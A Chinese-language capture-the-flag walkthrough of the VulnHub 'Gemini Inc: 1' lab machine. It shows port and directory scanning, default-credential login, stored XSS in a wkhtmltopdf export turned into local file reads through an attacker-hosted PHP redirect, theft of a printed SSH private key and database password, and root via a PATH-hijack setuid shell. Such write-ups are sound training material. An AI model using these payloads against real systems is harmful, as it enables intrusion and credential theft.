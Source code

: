 靶机地址：[Gemini Inc: 1 ~ VulnHub](https://www.vulnhub.com/entry/gemini-inc-1,227/)

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.48
sudo nmap -p "22,80" -sV 192.168.1.48
# 22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.25
```
简单看了下web服务，有一些提示和一个登录入口，没发现什么其它特别的，路径扫描一下
```Shell
sudo dirsearch -u http://192.168.1.48
sudo dirsearch -u http://192.168.1.48/test2/
# /test2/inc/
# /test2/js/
# /test2/lib/
# /test2/login.php
# /test2/profile.php
```
首页上还说明了仓库位置：[ionutvmi/master-login-system:(github.com)](https://github.com/ionutvmi/master-login-system)
可以在其仓库中看到这段内容
```php
$sqls[] = "
INSERT INTO `".$prefix."users` (`userid`, `username`, `display_name`, `password`, `email`, `key`, `validated`, `groupid`, `lastactive`, `showavt`, `banned`, `regtime`) VALUES
(1, 'admin', 'Admin', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220', 'admin@gmail.com', '', '1', 4, ".time().", 1, 0, ".time().");";
```
即账号密码
```
admin
7110eda4d09e062aa5e4a390b0a572ac0d2c0220
```
经过搜索 `7110eda4d09e062aa5e4a390b0a572ac0d2c0220` 是 `1234` 经过 `sha1` 加密的
尝试通过 `admin:1234` 登录系统，成功了
简单看一下，只有查看、修改、导出个人信息等功能
修改昵称，发现存在XSS漏洞，而且还是存储型XSS，但是暂时没有什么利用角度
再看一下导出功能，有点儿慢，导出了半天，可能有问题
导出了一个PDF文件，查看属性，作者是wkhtmltopdf 0.12.4
是通过 `wkhtmltopdf` 库生成的PDF，查一下相关漏洞，可能存在文件包含，尝试一下
```html
<iframe src="file:///etc/passwd"></iframe>
```
失败了
```html
<iframe src="http://192.168.1.26:7331/test.txt"></iframe>
```
果然存在文件包含，而且是远程文件包含
尝试利用，服务端部署的恶意代码
`exp.php`
```PHP
<?php header('Location: file://'.$_REQUEST['file']); ?>
```
启动服务，必须通过PHP启动服务
```Shell
php -S 0.0.0.0:7331
```
XSS的Payload
```html
<iframe  width="800" height="800" src="http://192.168.1.26:7331/exp.php?file=/etc/passwd"></iframe>
```
成功利用漏洞读取到了文件，其中包含如下等内容
```
root:x:0:0:root:/root:/bin/bash
gemini1:x:1000:1000:gemini-sec,,,:/home/gemini1:/bin/bash
```
结合之前的信息收集，再换一个可能存有敏感信息的文件
```HTML
<iframe  width="800" height="800" src="http://192.168.1.26:7331/exp.php?file=/var/www/html/test2/inc/settings.php"></iframe>
```
内容如下
```php
<?php
$set->db_host = 'localhost';
$set->db_user = 'gemini2';
$set->db_pass = 'dbsuperpassword';
$set->db_name = 'geminiinc';
define('MLS_PREFIX', 'mls_');
?>
```
用这个密码尝试SSH，失败了
尝试获取私钥，这样也能登录系统
```HTML
<iframe  width="800" height="800" src="http://192.168.1.26:7331/exp.php?file=/home/gemini1/.ssh/id_rsa"></iframe>
```
成功获取
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAv8sYkCmUFupwQ8pXsm0XCAyxcR6m5y9GfRWmQmrvb9qJP3xs
6c11dX9Mi8OLBpKuB+Y08aTgWbEtUAkVEpRU+mk+wpSx54OTBMFX35x4snzz+X5u
Vl1rUn9Z4QE5SJpOvfV3Ddw9zlVA0MCJGi/RW4ODRYmPHesqNHaMGKqTnRmn3/4V
u7cl+KpPZmQJzASoffyBn1bxQomqTkb5AGhkAggsOPS0xv6P2g/mcmMUIRWaTH4Z
DqrpqxFtJbuWSszPhuw3LLqAYry0RlEH/Mdi2RxM3VZvqDRlsV0DO74qyBhBsq+p
oSbdwoXao8n7oO2ASHc05d2vtmmmGP31+4pjuQIDAQABAoIBAQCq+WuJQHeSwiWY
WS46kkNg2qfoNrIFD8Dfy0ful5OhfAiz/sC84HrgZr4fLg+mqWXZBuCVtiyF6IuD
eMU/Tdo/bUkUfyflQgbyy0UBw2RZgUihVpMYDKma3oqKKeQeE+k0MDmUsoyqfpeM
QMc3//67fQ6uE8Xwnu593FxhtNZoyaYgz8LTpYRsaoui9j7mrQ4Q19VOQ16u4XlZ
rVtRFjQqBmAKeASTaYpWKnsgoFudp6xyxWzS4uk6BlAom0teBwkcnzx9fNd2vCYR
MhK5KLTDvWUf3d+eUcoUy1h+yjPvdDmlC27vcvZ0GXVvyRks+sjbNMYWl+QvNIZn
1XxD1nkxAoGBAODe4NKq0r2Biq0V/97xx76oz5zX4drh1aE6X+osRqk4+4soLauI
xHaApYWYKlk4OBPMzWQC0a8mQOaL1LalYSEL8wKkkaAvfM604f3fo01rMKn9vNRC
1fAms6caNqJDPIMvOyYRe4PALNf6Yw0Hty0KowC46HHkmWEgw/pEhOZdAoGBANpY
AJEhiG27iqxdHdyHC2rVnA9o2t5yZ7qqBExF7zyUJkIbgiLLyliE5JYhdZjd+abl
aSdSvTKOqrxscnPmWVIxDyLDxemH7iZsEbhLkIsSKgMjCDhPBROivyQGfY17EHPu
968rdQsmJK8+X5aWxq08VzlKwArm+GeDs2hrCGUNAoGAc1G5SDA0XNz3CiaTDnk9
r0gRGGUZvU89aC5wi73jCttfHJEhQquj3QXCXM2ZQiHzmCvaVOShNcpPVCv3jSco
tXLUT9GnoNdZkQPwNWqf648B6NtoIA6aekrOrO5jgDks6jWphq9GgV1nYedVLpR7
WszupOsuwWGzSr0r48eJxD0CgYEAo23HTtpIocoEbCtulIhIVXj5zNbxLBt55NAp
U2XtQeyqDkVEzQK4vDUMXAtDWF6d5PxGDvbxQoxi45JQwMukA89QwvbChqAF86Bk
SwvUbyPzalGob21GIYJpi2+IPoPktsIhhm4Ct4ufXcRUDAVjRHur1ehLgl2LhP+h
JAEpUWkCgYEAj2kz6b+FeK+xK+FUuDbd88vjU6FB8+FL7mQFQ2Ae9IWNyuTQSpGh
vXAtW/c+eaiO4gHRz60wW+FvItFa7kZAmylCAugK1m8/Ff5VZ0rHDP2YsUHT4+Bt
j8XYDMgMA8VYk6alU2rEEzqZlru7BZiwUnz7QLzauGwg8ohv1H2NP9k=
-----END RSA PRIVATE KEY-----
```
将私钥写到文件 `id_rsa` 中，并赋予响应权限
```Shell
chmod 600 id_rsa
```
尝试直接通过私钥连接
```Shell
ssh gemini1@192.168.1.48 -i id_rsa
```
成功登录进系统，尝试信息收集和提权
```Shell
mysql -u "gemini2" -D "geminiinc" -p
# dbsuperpassword
```
看一下，除了一个密码Hash，没发现其它有用的信息
查找SUID文件
```Shell
find / -type f -user root -perm -u+sx -ls 2>/dev/null
# /usr/bin/listinfo
file /usr/bin/listinfo
# /usr/bin/listinfo: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0f284a2f4f3c967c78816592da20f223e4ae2f10, not stripped
strings /usr/bin/listinfo
# /sbin/ifconfig | grep inet
# /bin/netstat -tuln | grep 22
# /bin/netstat -tuln | grep 80
# date
```
最终发现，其在执行date命令时没有指定路径，可以尝试通过修改环境变量，覆盖执行
```Shell
cd /tmp
mkdir exp
cd exp
vi exp.c
```
```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
```Shell
gcc exp.c -o date
rm exp.c
export PATH=/tmp/exp:$PATH
which date
```
尝试提权
```Shell
listinfo
```
提权成功

其它提权方式：[[20 CVE#CVE-2021-4034|CVE-2021-4034]] 
